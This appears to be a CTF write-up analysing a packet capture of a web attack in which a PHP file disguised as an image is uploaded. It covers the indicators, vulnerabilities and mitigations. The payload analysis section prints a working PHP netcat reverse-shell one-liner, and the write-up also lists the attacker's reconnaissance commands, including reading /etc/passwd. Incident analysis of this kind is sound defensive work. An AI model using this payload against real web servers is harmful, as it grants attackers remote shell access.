





# WebStrike Challenge 

## Overview
This project documents the investigation and analysis of a simulated web-based cyber attack using **Wireshark** packet analysis. The objective was to identify the attack vector, analyze the malicious payload, determine exploited vulnerabilities, and understand how the attacker gained unauthorized access.

---

## Objective
The WebStrike challenge required analyzing a provided **PCAP file** to determine:

- The attacker’s origin
- The malicious payload used
- The exploited vulnerability
- The reverse shell communication
- The data exfiltration attempt

The analysis was conducted using **Wireshark**.

---

# Investigation Methodology

## 1. Packet Capture Analysis

The investigation started by opening the `WebStrike.pcap` file in Wireshark and reviewing HTTP traffic.

### Key Observations
- Suspicious traffic originated from IP: 117.11.88.124
- Target web server: 24.49.63.79



---

# 2. HTTP Request Inspection

Filtering HTTP traffic helped identify user activity interacting with the website.

### Wireshark Filter Used
 
 `http`
 
This revealed requests to the vulnerable web application:GET /
- GET /products/
- GET /reviews/
- POST /reviews/upload.php



---

# 3. Identifying the Attacker's User-Agent

Examining HTTP request headers revealed the attacker’s User-Agent.

### User-Agent

`Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`


---

# 4. Detecting the Malicious File Upload

Filtering POST requests exposed a suspicious upload request.

### Wireshark Filter

`http.request.method == POST`

### Suspicious Endpoint

`POST /reviews/upload.php`

The attacker uploaded a malicious PHP file disguised as an image.

### Malicious Filename
`image.jpg.php`



---

# 5. Malicious Payload Analysis

Following the HTTP stream revealed the embedded PHP reverse shell.

### Extracted Payload
`<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>`


### Attack Behavior

The payload performs the following actions:

1. Creates a FIFO pipe
2. Executes a shell
3. Connects back to the attacker using **Netcat**
4. Opens a reverse shell connection

### Target Port 
8080



---

# 6. Vulnerable Directory Identification

The uploaded malicious file was stored in the following directory: `/reviews/uploads/`

This indicates the web application allowed **insecure file uploads**.

---

# 7. Reverse Shell Interaction

Following the TCP stream revealed the attacker successfully gaining shell access.

Commands executed by the attacker:
- whoami
- uname -a
- pwd
- ls /home
- cat /etc/passwd



---

# 8. Data Exfiltration Attempt

The attacker attempted to access sensitive system data: `/etc/passwd`

This confirms a **post-exploitation reconnaissance phase**.

---

# Attack Summary

| Indicator | Value |
|--------|------|
| Attacker IP | 117.11.88.124 |
| Target Server | 24.49.63.79 |
| Attack Origin City | Tianjin |
| Malicious File | image.jpg.php |
| Upload Directory | /reviews/uploads/ |
| Reverse Shell Port | 8080 |
| Exfiltrated File | /etc/passwd |

---

# Identified Vulnerabilities

### 1. Insecure File Upload
The web application allowed executable PHP files to be uploaded.

### 2. Lack of File Validation
No restrictions prevented uploading `.php` files disguised as images.

### 3. Directory Exposure
Uploaded files were stored in a publicly accessible directory.

### 4. No Web Application Firewall
The malicious request was not detected or blocked.

---

# Mitigation Recommendations

### Secure File Upload Handling
- Allow only specific file types
- Validate MIME types
- Rename uploaded files
- Store uploads outside the web root

### Web Application Firewall (WAF)
Deploy a WAF to detect malicious payloads.

### Input Validation
Validate and sanitize all form inputs.

### Disable Script Execution in Upload Directory

Example Apache configuration:
```
<Directory "/var/www/html/reviews/uploads">
php_admin_flag engine off
</Directory>
```
### Network Monitoring
Use IDS/IPS solutions to detect reverse shell activity.

---

# Conclusion

The WebStrike challenge demonstrated how attackers exploit insecure file upload vulnerabilities to gain unauthorized access to web servers. By analyzing packet captures, the attack lifecycle was reconstructed from initial access to post-exploitation.

The exercise highlights the importance of secure coding practices, network monitoring, and proper security controls to prevent web-based attacks.

---
